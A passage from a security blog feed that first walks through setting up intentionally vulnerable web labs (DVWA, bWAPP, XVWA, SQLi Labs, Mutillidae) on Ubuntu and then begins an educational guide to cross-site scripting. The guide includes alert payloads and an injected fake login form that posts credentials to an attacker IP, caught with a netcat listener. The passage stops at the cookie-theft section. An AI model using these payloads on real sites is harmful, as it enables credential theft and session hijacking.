<p>Here you need to make the changes and give access to the Ubuntu user as in our case we have written&nbsp;<strong>raj&nbsp;</strong>as db user and as our ubuntu password is<strong>&nbsp;123</strong>&nbsp;so we have written 123 as db password.</p>


<figure class="wp-block-image"></figure>


<p>Now we will try to open dvwa lab in the browser by the following URL and click on&nbsp;<strong>Create/Reset Database</strong></p>


<pre class="wp-block-preformatted">../../../dvwa/setup.php</pre>


<figure class="wp-block-image"></figure>


<p>Good! We have successfully configured the dvwa lab in ubuntu 18 as we can see that we are welcomed by the login page.</p>


<figure class="wp-block-image"></figure>


<p>For login, we will use the dvwa username which is&nbsp;<strong>admin</strong>&nbsp;and&nbsp;<strong>password</strong>&nbsp;which is dvwa password by default.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>bWAPP</strong></h3>


<p>A buggy web application that is purposely unsafe. Enthusiasts of security, system engineers, developers can find out about Web vulnerabilities and prevent them.</p>


<p>bWAPP prepares you for successful tests and penetration testing. Now we will configure bWAPP lab in Ubuntu 18. First, we will&nbsp;<strong><a href="https://sourceforge.net/projects/bwapp/">download bWAPP</a></strong>&nbsp;and then we will move inside the Downloads folder and then unzip the bWAPP file by the following command-</p>


<pre class="wp-block-preformatted">unzip bWAPP_latest.zip</pre>


<figure class="wp-block-image"></figure>


<p>Now we will move bWAPP into var/www/html by the following command-</p>


<pre class="wp-block-preformatted">mv bWAPP /var/www/html</pre>


<figure class="wp-block-image"></figure>


<p>Now we will edit the config file; so, move inside the config file by the following command and where you can see that db username is root and db password is bug b default.</p>


<pre class="wp-block-preformatted">cd admin
ls
nano setting.php</pre>


<figure class="wp-block-image"></figure>


<p>Now we will make some changes and will set our ubuntu user&nbsp;<strong>raj</strong>&nbsp;in place of root and set password&nbsp;<strong>123&nbsp;</strong>in place of bug. Save it and then exit the config file.</p>


<figure class="wp-block-image"></figure>


<p>Now go to your browser and open bWAPP installation file by the following command and click on here as shown in the image below</p>


<pre class="wp-block-preformatted">../../../bWAPP/install.php</pre>


<figure class="wp-block-image"></figure>


<p>Now you will get a login page of bWAPP where we will use the default username which is&nbsp;<strong>bee</strong>&nbsp;and default password which is&nbsp;<strong>bug</strong>&nbsp;and you are logged in in bWAPP.</p>


<figure class="wp-block-image"></figure>


<p>Now you can start working on bWAPP.</p>


<figure class="wp-block-image"></figure>


<p>When you will login as bee:bug; you will get the portal to test your penetration testing skill.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>XVWA</strong></h3>


<p>XVWA is poorly coded written in PHP/MYSQL web application that helps security lovers learn security from applications. This application is not advisable online because it is Vulnerable to extremes as the name also suggests. This application should be hosted in a controlled and safe environment where you can improve your skills with the tool of your choice. So, let’s start-</p>


<p>First, we will download XVWA from GitHub; so, go to ubuntu terminal and open the following link to download XVWA lab inside html directory by the following link-</p>


<pre class="wp-block-preformatted">git clone http://github.com/s4n7h0/xvwa.git</pre>


<p>Once it is downloaded, we will open the config file of xvwa by the following command</p>


<pre class="wp-block-preformatted">cd xvwa
nano config.php</pre>


<p>Now we can see that the username of xvwa is root and password is left blank.</p>


<figure class="wp-block-image"></figure>


<p>Now we will remove the root user from here and we will be using the ubuntu username and password here which is&nbsp;<strong>raj:123</strong></p>


<p>Afterwards, we will save the file and exit.</p>


<figure class="wp-block-image"></figure>


<p>Now browse web application through URL-localhost/xvwa and we can see that we are successfully logged in-</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>SQLI Labs</strong></h3>


<p>A&nbsp;laboratory&nbsp;that&nbsp;offers&nbsp;a&nbsp;complete&nbsp;test&nbsp;environment&nbsp;for&nbsp;those&nbsp;interested&nbsp;in&nbsp;acquiring&nbsp;or&nbsp;improving&nbsp;SQL&nbsp;injection&nbsp;skills.&nbsp;Let’s start. First, we will download SQLI lab inside html directory by the following link-</p>


<pre class="wp-block-preformatted">git clone http://github.com/Rinkish/Sqli_Edited_Version</pre>


<p>&nbsp;Once the download is done, we will move sqli labs into the /var/www/html directory and rename it to sqli. Then go inside the sqli directory where we will find&nbsp;<strong>/sqli-connections</strong>&nbsp;directory. Here we will run ls command to check the files and we can see that here is file by the name of db-creds.inc</p>


<p>we need to make some changes in the config file by the following command-</p>


<pre class="wp-block-preformatted">cd Sqli_Edited_Version/
ls
mv sqlilabs/ ../sqli
cd sqli
cd sql-connections/
ls
nano db-creds.inc</pre>


<figure class="wp-block-image"></figure>


<p>As we can see that username is given root and password is left blank which we need to modify.</p>


<figure class="wp-block-image"></figure>


<p>Now here we will set the username and password as&nbsp;<strong>raj:123</strong>&nbsp;Now save the file and exit.</p>


<figure class="wp-block-image"></figure>


<p>Now browse this web application from through this URL<em>:&nbsp;</em><strong>localhost/sqli</strong>&nbsp;and click on&nbsp;<strong>Setup/reset</strong>&nbsp;Databases for labs.</p>


<figure class="wp-block-image"></figure>


<p>Now the sqli lab is ready to use.</p>


<figure class="wp-block-image"></figure>


<p>Now a page will open up in your browser which is an indication that we can access different kinds of Sqli challenges</p>


<figure class="wp-block-image"></figure>


<p>Click on lesson 1 and start the Sqli challenge.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Mutillidae</strong></h3>


<p>OWASP Mutillidae is a free open source purposely vulnerable web application providing an enthusiastic goal for web security. It’s a laboratory which provides a complete test environment for those who are interested in SQL injection acquisition or improvement. This&nbsp;is&nbsp;an&nbsp;easy-to-use&nbsp;Web&nbsp;hacking&nbsp;environment&nbsp;designed&nbsp;for&nbsp;laboratories,&nbsp;security&nbsp;lovers,&nbsp;classrooms,&nbsp;CTFs,&nbsp;and&nbsp;vulnerability&nbsp;assessment&nbsp;targets,&nbsp;and&nbsp;has&nbsp;dozens&nbsp;of&nbsp;vulnerabilities&nbsp;and&nbsp;tips&nbsp;to&nbsp;help&nbsp;the&nbsp;user.</p>


<p>So, let’s start by downloading by the clicking on the following link given below-</p>


<pre class="wp-block-preformatted">git clone https://github.com/webpwnized/mutillidae</pre>


<figure class="wp-block-image"></figure>


<p>After the downloading, go inside the Mutillidae directory and where you will find a directory /includes, go inside this directory.</p>


<p>Inside this directory, we will find database-config.inc file which we need to open by nano command as shown in the image below.</p>


<pre class="wp-block-preformatted">cd mutillidae
cd includes
ls
nano database-config.inc</pre>


<p>Now here you will find that username is root and password is Mutillidae, by default and which we need to change.</p>


<figure class="wp-block-image"></figure>


<p>Now we will use our ubuntu username and password which is raj:123. Save the changes and then exit</p>


<figure class="wp-block-image"></figure>


<p>Now we will open this our local browser by the following URL:&nbsp;<strong>localhost/mutillidae</strong>&nbsp;where we will find an option of reset database. Just click on it to reset the database.</p>


<figure class="wp-block-image"></figure>


<p>Now you will be redirected to a page which will ask you to click ok to proceed. Here you need to click on ok and you are done with the configuration of the Mutillidae lab.</p>


<p>So, In this way, we can setup our vulnerable web application lab for penetration testing.</p>


<figure class="wp-block-image"></figure>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>Comprehensive Guide on Cross-Site Scripting (XSS)</title>
		<link>../../../2024/12/27/comprehensive-guide-on-cross-site-scripting-xss/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Fri, 27 Dec 2024 17:49:23 +0000</pubDate>
				<category><![CDATA[SQL, Botnets and XSS Attacks Tools and Resources]]></category>
		<guid isPermaLink="false">../../../index.html?p=9053</guid>

					<description><![CDATA[Have you ever welcomed with a pop-up, when you visit a web-page or when you hover at some specific text? Imagine, if these pop-ups become a vehicle, which thus delivers....]]></description>
										<content:encoded><![CDATA[
<p><em>Have you ever welcomed with a pop-up, when you visit a web-page or when you hover at some specific text? Imagine, if these pop-ups become a vehicle, which thus delivers malicious payload into your system or even capture up some sensitive information.</em> Today, in this guide, we’ll take a tour to <strong>Cross</strong>–<strong>Site</strong> <strong>Scripting </strong>and would learn how an attacker executes malicious JavaScript codes over at the input parameters and generates such pop-ups, in order to deface the web-application or to hijack the active user’s session.</p>


<p><strong>Table of Content</strong></p>


<p>·&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;What is JavaScript?</p>


<p>·&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;JavaScript Event Handlers</p>


<p>·&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Introduction to Cross-Site Scripting (XSS)</p>


<p>·&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Impact of Cross-Site Scripting</p>


<p>·&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Types of XSS</p>


<p>o&nbsp;&nbsp;&nbsp;Reflected XSS</p>


<p>o&nbsp;&nbsp;&nbsp;Stored XSS</p>


<p>o&nbsp;&nbsp;&nbsp;DOM-based XSS</p>


<p>·&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Cross-Site Scripting Exploitation</p>


<p>o&nbsp;&nbsp;&nbsp;Credential Capturing</p>


<p>o&nbsp;&nbsp;&nbsp;Cookie Capture</p>


<p>o&nbsp;&nbsp;&nbsp;Fuzzing</p>


<p>§&nbsp;&nbsp;Burpsuite</p>


<p>§&nbsp;&nbsp;XSSer</p>


<p>·&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Mitigation Steps</p>


<p><strong>What is JavaScript?</strong></p>


<p>A dynamic web-application stands up over three pillars i.e.&nbsp;<strong>HTML –&nbsp;</strong>which determines up the complete structure,&nbsp;<strong>CSS –&nbsp;</strong>describes its overall look and feel, and the&nbsp;<strong>JavaScript –&nbsp;</strong>which simply adds powerful interactions to the application such as alert-boxes, rollover effects, dropdown menus and other things.</p>


<p>So,&nbsp;<strong>JavaScript is the programming language of the web&nbsp;</strong>and is considered to be one of the most popular scripting languages as about&nbsp;<strong>93% of the total websites</strong>&nbsp;runs with Javascript, due to some of its major features i.e.</p>


<p>·&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;It is easy to learn.</p>


<p>·&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;It helps to build interactive web-applications.</p>


<p>·&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Is the only the programming language that can be&nbsp;<strong>interpreted</strong>&nbsp;<strong>by</strong>&nbsp;the&nbsp;<strong>browser</strong>&nbsp;i.e. the browser runs it, instead of displaying it.</p>


<p>·&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;It is flexible, as it simply gets&nbsp;<strong>blends</strong>&nbsp;<strong>up</strong>&nbsp;<strong>with</strong>&nbsp;the&nbsp;<strong>HTML</strong>&nbsp;codes.</p>


<p><strong>JavaScript Event Handlers</strong></p>


<p>When a JavaScript code is embedded over into HTML page, then this JavaScript&nbsp;<strong>“react”</strong>&nbsp;on some specific events like:</p>


<p>When the page loads up, it is an event. When the user clicks a button, that clicks is too an event. Other examples such as – pressing any key, closing a window, resizing a window, etc. Therefore such events are thus managed by some&nbsp;<strong>event-handlers.</strong></p>


<p><strong>Onload</strong></p>


<p>Javascript uses the&nbsp;<strong>onload</strong>&nbsp;<strong>function</strong>&nbsp;to load an object over on a web page.</p>


<p><em>For example, I want to generate an alert for user those who visit my website; I will give the following JavaScript code.</em></p>


<pre class="wp-block-preformatted">&nbsp;&lt;body onload=alert(‘Welcome to Hacking Articles’)&gt;</pre>


<p>So whenever the body tag loads up, an alert will pop up with the following text&nbsp;<strong><em>“Welcome to Hacking Articles”</em></strong>. Here the&nbsp;<strong>loading of the body tag is an “event”</strong>&nbsp;or a happening and&nbsp;<strong>“onload” is an event handler</strong>&nbsp;which decides what action should happen on that event.</p>


<p><strong>Onmouseover</strong></p>


<p>With the Onmouseover event handler, when a user moves his cursor over a specific text, the embedded javascript code will get executed.</p>


<p><em>For example, let us understand the following code:</em></p>


<pre class="wp-block-preformatted">&lt;a onmouseover=alert(“50% discount”)&gt;surprise&lt;/a&gt;</pre>


<p><em>Now when the user moves his cursor over the&nbsp;<strong>surprise</strong>&nbsp;the displayed text on the page, an alert box will pop up with 50% discount.</em></p>


<p>Similarly, there are many JavaScript event handlers, which defines what event should occur for such type of actions like a scroll down, or when an image fails to load etc.</p>


<figure class="wp-block-table"><table class="has-fixed-layout"><tbody><tr><td><strong>onclick:</strong></td><td>Use this to invoke JavaScript upon clicking (a link, or form boxes)</td></tr><tr><td><strong>onload:</strong></td><td>Use this to invoke JavaScript after the page or an image has finished loading</td></tr><tr><td><strong>onmouseover</strong></td><td>Use this to invoke JavaScript if the mouse passes by some link</td></tr><tr><td><strong>onmouseout</strong></td><td>Use this to invoke JavaScript if the mouse goes pass some link</td></tr><tr><td><strong>onunload</strong></td><td>Use this to invoke JavaScript right after someone leaves this page.</td></tr></tbody></table></figure>


<p><strong><br>Introduction to Cross-Site Scripting (XSS)</strong></p>


<p><strong>C</strong>ross-<strong>S</strong>ite&nbsp;<strong>S</strong>cripting often abbreviated as&nbsp;<strong>“XSS”&nbsp;</strong>is a client-side code injection attack where malicious&nbsp;<strong>scripts</strong>&nbsp;<strong>are</strong>&nbsp;<strong>injected</strong>&nbsp;<strong>into</strong>&nbsp;<strong>trusted</strong>&nbsp;<strong>websites</strong>. XSS occurs over in those web-applications where the input-<strong>parameters</strong>&nbsp;are&nbsp;<strong>not</strong>&nbsp;<strong>properly</strong>&nbsp;<strong>sanitized</strong>&nbsp;or validated which thus allows an attacker to send malicious Javascript codes over at a different end-user. The end user’s browser has no way to know that the script should not be trusted, and will thus execute up the script.</p>


<p>In this attack,&nbsp;<strong>the users are not directly targeted through a payload</strong>, although the attacker shoots the XSS vulnerability by&nbsp;<strong>inserting a malicious script into a web page</strong>&nbsp;that appears to be a genuine part of the website. So, when any user visits that website, the XSS suffering web-page will deliver the malicious JavaScript code directly over to his browser without his knowledge.</p>


<p>Confused with what’s happening? Let’s make it more clear with the following example.</p>


<p><em>Consider a web application that allows its users to set-up their&nbsp;<strong>“brief description”</strong>&nbsp;over at their profile, which is thus&nbsp;<strong>visible</strong>&nbsp;<strong>to</strong>&nbsp;<strong>everyone</strong>. Now the attacker notice that the description field is not properly validating the inputs, so he injects his malicious script into that<strong>&nbsp;field.</strong></em></p>


<p><em>Now, whenever the visitor views the attacker’s profile, the code get’s automatically executed by the browser and therefore it captures up the authenticated cookies and over on the other side, the attacker would have the victim’s active session.</em></p>


<figure class="wp-block-image"></figure>


<p><strong>Impact of Cross-Site Scripting</strong></p>


<p>From the last decay,&nbsp;<strong>C</strong>ross-<strong>S</strong>ite&nbsp;<strong>Sc</strong>ripting has managed its position in the&nbsp;<strong>OWASP Top10 list,</strong>&nbsp;as it is one of the most crucial and the most widely-used attack method on the internet.</p>


<p>Therefore, over with this vulnerability, the attacker could:</p>


<p>·&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Capture and access the user’s authenticated session cookies.</p>


<p>·&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Uploads a phishing page to lure the users into unintentional actions.</p>


<p>·&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Redirects the visitors to some other malicious sections.</p>


<p>·&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Expose the user’s sensitive data.</p>


<p>·&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Manipulates the structure of the web-application or even defaces it.</p>


<p>However, XSS has been reported with a&nbsp;<strong>“CVSS Score”&nbsp;</strong>of<strong>&nbsp;“6.1”&nbsp;</strong>as on&nbsp;<strong>“Medium” Severity&nbsp;</strong>under</p>


<p>·&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<strong>CWE-79</strong>: Improper Neutralization of Input During Web Page Generation (‘Cross-site Scripting’)</p>


<p>·&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<strong>CWE-80</strong>: Improper Neutralization of Script-Related HTML Tags in a Web Page (Basic XSS)</p>


<p><strong>Types of XSS</strong></p>


<p>Up till now, you might be having a clear vision with the concept of&nbsp;<strong>JavaScript</strong>&nbsp;and&nbsp;<strong>XSS&nbsp;</strong>and its major consequences. So, let’s continue down on the same road and break this XSS into three main types as –</p>


<p>§&nbsp;&nbsp;<strong>Stored XSS</strong></p>


<p>§&nbsp;&nbsp;<strong>Reflected XSS</strong></p>


<p>§&nbsp;&nbsp;<strong>DOM-based XSS</strong></p>


<p><strong><u>Stored</u></strong><strong>&nbsp;<u>XSS</u></strong></p>


<p><strong>“Stored</strong>&nbsp;<strong>XSS”</strong>&nbsp;often termed as&nbsp;<strong>“<em>Persistent XSS</em>”&nbsp;</strong>or&nbsp;<strong><em>“Type I”</em></strong><em>,</em>&nbsp;&nbsp;as over through this vulnerability the injected malicious script gets permanently stored inside the web application’s database server and the server further drops it out back, when the user visits the respective website.</p>


<p>However, this happens in a way as -.&nbsp;<em>when the client clicks or hovers a particular infected section, the injected JavaScript will get executed by the browser as it was already into the application’s database. Therefore this attack does not require any phishing technique to target its users.</em></p>


<p>The most common example of&nbsp;<strong>Stored XSS</strong>&nbsp;is the&nbsp;<em><strong>“comment option”</strong></em>&nbsp;in the blogs, which allow any user to enter his feedback as in the form of comments for the administrator or other users.</p>


<p>Let’s carry this up by considering an example:</p>


<p>A web-application is asking its user to submit their feedback, as there on its webpage it is having two input fields- one for the name and other for the comment.</p>


<figure class="wp-block-image"></figure>


<p>Now, whenever the user hits up the&nbsp;<strong>submits</strong>&nbsp;button, his entry gets stored into the database. To make it more clear, I’ve called up the database table on the screen as:</p>


<figure class="wp-block-image"></figure>


<p>Here, the developer trusts his users and&nbsp;<strong>hadn’t placed any validations over at the fields</strong>. So this loophole was encountered by the attacker and therefore he took advantage of it, as – instead of submitting the feedback, he&nbsp;<strong>commented</strong>&nbsp;his&nbsp;<strong>malicious</strong>&nbsp;<strong>script</strong>.</p>


<pre class="wp-block-preformatted">&lt;script&gt;alert("Hey!! This website belongs to Hacking Articles")&lt;/script&gt;</pre>


<p>From the below screenshot, you can see that the attacker got success, as the web-application reflects with an alert pop-up.</p>


<figure class="wp-block-image"></figure>


<p>Now, back on the database, you can see that the table has been updated with&nbsp;<strong>Name&nbsp;</strong>as&nbsp;<strong>“Ignite”&nbsp;</strong>and the&nbsp;<strong>Feeback&nbsp;</strong>field is empty, this clears up that the attacker’s script had been injected successfully.</p>


<figure class="wp-block-image"></figure>


<p>So let’s switch to another browser as a different user and would again try to submit genuine feedback.</p>


<figure class="wp-block-image"></figure>


<p>Now when we hit the&nbsp;<strong>Submit&nbsp;</strong>button, our browser will execute the injected script and reflects it on the screen.</p>


<figure class="wp-block-image"></figure>


<p><strong><u>Reflected</u></strong><strong>&nbsp;<u>XSS</u></strong></p>


<p>The&nbsp;<strong>Reflected</strong>&nbsp;<strong>XSS</strong>&nbsp;also termed as&nbsp;<strong>“Non-Persistence XSS”&nbsp;</strong>or&nbsp;<strong><em>“Type II”</em></strong>, occurs when the web application responds immediately on user’s input without validating what the user entered, this can lead an attacker to inject browser executable code inside the single HTML response. It is termed&nbsp;<strong>“non-persistent”</strong>&nbsp;as the malicious script&nbsp;<strong>does not get stored inside the web-server’s database</strong>,&nbsp;<em>thus the attacker needs to send the malicious link through phishing in order to trap the user.</em></p>


<p>Reflected XSS is the most common and thus can be easily found over at the&nbsp;<strong>“website’s search fields”</strong>&nbsp;where the attacker includes some arbitrary Javascript codes in the search textbox and, if the website is vulnerable, the web-page return up the event as was described into the script.</p>


<p>Reflect XSS is a major with two types:</p>


<p>§&nbsp;&nbsp;<strong>Reflected XSS GET</strong></p>


<p>§&nbsp;&nbsp;<strong>Reflected XSS POST</strong></p>


<p>To be more clear with the concept of Reflected XSS, let’s check out the following scenario.</p>


<p>Here, we’ve created a webpage, which thus permits up the user to search for a particular&nbsp;<strong>training course</strong>.</p>


<p>So, when the user searches for&nbsp;<strong>“Bug Bounty”</strong>, a message prompts back over on the screen as&nbsp;<em><strong>“You have searched for Bug Bounty.”</strong></em></p>


<figure class="wp-block-image"></figure>


<p>Thus, this instant response and the&nbsp;<strong>“search”&nbsp;</strong>parameter in the URL shows up that, the page might be vulnerable to XSS and even the data has been requested over through the GET method.</p>


<p>So, let’s now try to generate some pop-ups by injecting Javascript codes over into this&nbsp;<strong>“search”</strong>&nbsp;<strong>parameter</strong>&nbsp;as</p>


<pre class="wp-block-preformatted">get.php?search=&lt;script&gt;alert("Welcome to hacking Articles!!")&lt;/script&gt;</pre>


<p>Great!!From the below screenshot, you can see that we got the alert reflected as&nbsp;<strong><em>“Welcome to Hacking Articles!!”</em></strong></p>


<figure class="wp-block-image"></figure>


<p>Wonder why this all happened, let’s check out the following code snippet.</p>


<figure class="wp-block-image"></figure>


<p>With the ease to reflect the&nbsp;<strong>message</strong>&nbsp;on the screen, the developer didn’t set up any input validation over at the&nbsp;<strong>ignite function</strong>&nbsp;and he simply&nbsp;<strong>“echo”</strong>&nbsp;the&nbsp;<em>“Search Message”</em>&nbsp;with&nbsp;<strong><em>ignite($search)</em></strong>&nbsp;through the&nbsp;<strong>“$_GET”</strong>&nbsp;variable.</p>


<figure class="wp-block-image"></figure>


<p><strong><u>DOM-Based</u></strong><strong>&nbsp;<u>XSS</u></strong></p>


<p>The&nbsp;<strong>DOM</strong>–<strong>Based</strong>&nbsp;<strong>Cross</strong>–<strong>Site</strong>&nbsp;<strong>Scripting</strong>&nbsp;is the vulnerability which appears up in a Document Object Model rather than in the HTML pages.</p>


<p>But what is this&nbsp;<strong><em>Document Object Model</em></strong>?</p>


<p>A&nbsp;<strong>DOM&nbsp;</strong>or a&nbsp;<strong>D</strong>ocument&nbsp;<strong>Ob</strong>ject&nbsp;<strong>M</strong>odel describes up the different web-page segments like –&nbsp;&nbsp;title, headings, tables, forms, etc. and even the hierarchical structure of an HTML page. Thus, this API increases the skill of the developers to produce and change&nbsp;HTML&nbsp;and&nbsp;XML&nbsp;documents as programming&nbsp;objects.</p>


<p>When an&nbsp;<strong>HTML</strong>&nbsp;<strong>document</strong>&nbsp;is loaded into a web browser, it becomes a&nbsp;<strong>“Document</strong>&nbsp;<strong>Object”</strong>.</p>


<p>However, this document object is the&nbsp;<strong>root</strong>&nbsp;<strong>node</strong>&nbsp;of the HTML documents and the&nbsp;<strong>“owner”</strong>&nbsp;of all other nodes.</p>


<figure class="wp-block-image"></figure>


<p>With the object model, JavaScript gets all the power it needs to create dynamic HTML:</p>


<p>§&nbsp;&nbsp;JavaScript can change all the HTML elements in the page</p>


<p>§&nbsp;&nbsp;JavaScript can change all the HTML attributes in the page</p>


<p>§&nbsp;&nbsp;JavaScript can change all the CSS styles in the page</p>


<p>§&nbsp;&nbsp;JavaScript can remove existing HTML elements and attributes</p>


<p>§&nbsp;&nbsp;JavaScript can add new HTML elements and attributes</p>


<p>§&nbsp;&nbsp;JavaScript can react to all existing HTML events in the page</p>


<p>§&nbsp;&nbsp;JavaScript can create new HTML events on the page</p>


<p>Therefore DOM manipulation is itself is not a problem, but when JavaScript handles data insecurely in the DOM, thus it enables up various attacks.</p>


<p><strong>DOM-based XSS&nbsp;</strong>vulnerabilities usually arise when JavaScript takes data from an attacker-controllable&nbsp;<strong>source</strong><em>, such as the URL</em>, and passes it to a&nbsp;<strong>sink (</strong>a dangerous JavaScript function or DOM object&nbsp;<em>as eval()</em><strong>)</strong>&nbsp;that supports dynamic code execution.</p>


<p><em>This is quite different from&nbsp;<strong>reflected</strong>&nbsp;and&nbsp;<strong>stored</strong>&nbsp;<strong>XSS</strong>&nbsp;because over in this attack, the developer cannot find the malicious script in HTML source code as well as in HTML response, it can be observed at execution time.</em></p>


<p>The DOM-Based XSS exploits these problems on the user’s local machines in this way:</p>


<p>– The attacker creates a well-built malicious website</p>


<p>– The ingenious user opens that sites</p>


<p>– The user has a vulnerable page on his machine</p>


<p>– The attacker’s website sends commands to the vulnerable HTML page</p>


<p>– The vulnerable local page executes that commands with the user’s privileges on that machine.</p>


<p>– The attacker easily gains control of the victim computer.</p>


<p>Didn’t understand well, let’s check out a DOM-based XSS exploitation.</p>


<p>The following application was thereby vulnerable to DOM-based XSS attack. The web application further permits its users to opt a language with the following displayed options and thus executes the input through its URL.</p>


<pre class="wp-block-preformatted">../../../DVWA/vulnerabilities/xss_d/index.html?default=English</pre>


<figure class="wp-block-image"></figure>


<p>From the above screenshot, you can see that we do not have any specific section where we could include our malicious code. Therefore, in order to deface this web-application, we’ll now manipulate up the&nbsp;<strong>“URL”</strong>&nbsp;as it is the most common&nbsp;<strong>source</strong>&nbsp;for the&nbsp;<strong>DOM</strong>&nbsp;<strong>XSS.</strong></p>


<pre class="wp-block-preformatted">../../../DVWA/vulnerabilities/xss_d/index.html?default=English#&lt;script&gt;alert("This is DOM XSS");&lt;/script&gt;</pre>


<p>After manipulating up the URL, hit enter. Now,&nbsp;&nbsp;we’ll again choose up the language and as we fire up the select button, the browser executes up the code in the URL and pops out the&nbsp;<strong>DOM</strong>&nbsp;<strong>XSS</strong>&nbsp;<strong>alert</strong>.</p>


<p>The major difference between&nbsp;<strong>DOM-based XSS</strong>&nbsp;and&nbsp;<strong>Reflected</strong>&nbsp;or&nbsp;<strong>Stored XSS</strong>&nbsp;is that it cannot be stopped by server-side filters because anything written after the&nbsp;“#” (hash) will never forward to the server.</p>


<figure class="wp-block-image"></figure>


<p><strong>Cross-Site Scripting Exploitation</strong></p>


<p>I’m sure you might be wondering that&nbsp;<em>“Okay, we got the pop-up, but now what? What we could do with this? I’ll click the OK button and this pop-up will go.”</em></p>


<p>But this pop-up speaks about a thousand words. Let’s&nbsp;<strong>take a U-turn&nbsp;</strong>and get back to the place, where we got our first pop-up; Yes over at the Stored Section.</p>


<p><strong><u>Credential</u></strong><strong>&nbsp;<u>Capturing</u></strong></p>


<p>So, as we are now aware of the fact that whenever a user submits up his feedback, it will get stored directly into the server’s database. And if the attacker manipulates the feedback with an&nbsp;<strong>“alert message”,</strong>&nbsp;thus even the alert will get stored into it, and it pops up every time, whenever some other user visits the application’s web-page.</p>


<p>But what, if rather than a pop-up the user is welcomed with a&nbsp;&nbsp;login page?</p>


<p>Let’s try to solve this by injecting a malicious payload that will&nbsp;<em><strong>create</strong></em><em>&nbsp;up a fake user&nbsp;</em><strong><em>login form&nbsp;</em></strong>on the web page, which will thus forward the captured request over to<strong>&nbsp;the attacker’s IP</strong>.</p>


<p>So, let’s includes the following script over at the feedback field in the web-application</p>


<pre class="wp-block-preformatted">&lt;div style="position: absolute; left: 0px; top: 0px; background-color:#fddacd;width: 1900px; height: 1300px;"&gt;&lt;h2&gt;Please login to continue!!&lt;/h2&gt;
&lt;br&gt;&lt;form name="login" action="http://192.168.0.9:4444/login.htm"&gt;
&lt;table&gt;&lt;tr&gt;&lt;td&gt;Username:&lt;/td&gt;&lt;td&gt;&lt;input type="text" name="username"/&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td&gt;Password:&lt;/td&gt;
&lt;td&gt;&lt;input type="password" name="password"/&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;
&lt;td colspan=2 align=center&gt;&lt;input type="submit" value="Login"/&gt;&lt;/td&gt;&lt;/tr&gt;
&lt;/table&gt;&lt;/form&gt;</pre>


<figure class="wp-block-image"></figure>


<p>Now this malicious code has been stored into the web application’s database.</p>


<figure class="wp-block-image"></figure>


<p>Over at some other browser, think when a user tries to submit the feedback.</p>


<figure class="wp-block-image"></figure>


<p>As soon as she hit the submit button, the browser executes up the script and he got welcomed with login form as&nbsp;<strong>“Please login to continue!!”</strong>.</p>


<figure class="wp-block-image"></figure>


<p>Over on the other side, let’s enable our listener as with</p>


<pre class="wp-block-preformatted">nc –lvp 4444</pre>


<p>Now, as when she enters up her credentials, the scripts will boot up again and the entered credentials will travel to the attacker’s listener.</p>


<p>Cool!! From the below screenshot, you can see that we’ve successfully captured up the victim’s credentials.</p>


<figure class="wp-block-image"></figure>


<p><strong><u>Cookie</u></strong><strong>&nbsp;<u>Capturing</u></strong></p>


<p>There are times when an attacker needs&nbsp;<strong>authenticated</strong>&nbsp;<strong>cookies</strong>&nbsp;of a logged-in user either to access his account or for some other malicious purpose.</p>


<p>So let’s see how this XSS vulnerability empowers the attackers to capture the session cookies and how the attacker abuses them in order to get into the user’s account.</p>


<p>I’ve opened the vulnerable web-application&nbsp;<strong>“DVWA”</strong>&nbsp;over in my browser and logged-in inside with&nbsp;<strong>admin: password.&nbsp;</strong>Further, from the left-hand panel I’ve opted the vulnerability as&nbsp;<strong>XSS (Stored),&nbsp;</strong>over for this time let’s keep the security to&nbsp;<strong>low</strong>.</p>


<figure class="wp-block-image"></figure>


<p>Let’s enter our malicious payload over into the “Message” section, but before that, we need to increase the length of text-area as it is not sufficient to inject our payload. Therefore, open up the&nbsp;<strong>inspect element tab by hitting&nbsp;<em>“Ctrl + I”</em></strong>&nbsp;to view it’s given message length for the text area and then further change the message&nbsp;<strong>maxlength</strong>&nbsp;<strong>field</strong>&nbsp;from 50 -150.</p>


<figure class="wp-block-image"></figure>


<p>Over in the following screenshot, you can see that I have injected the script which will thus capture up the cookie and will send the response to our listener when any user visits this page.</p>


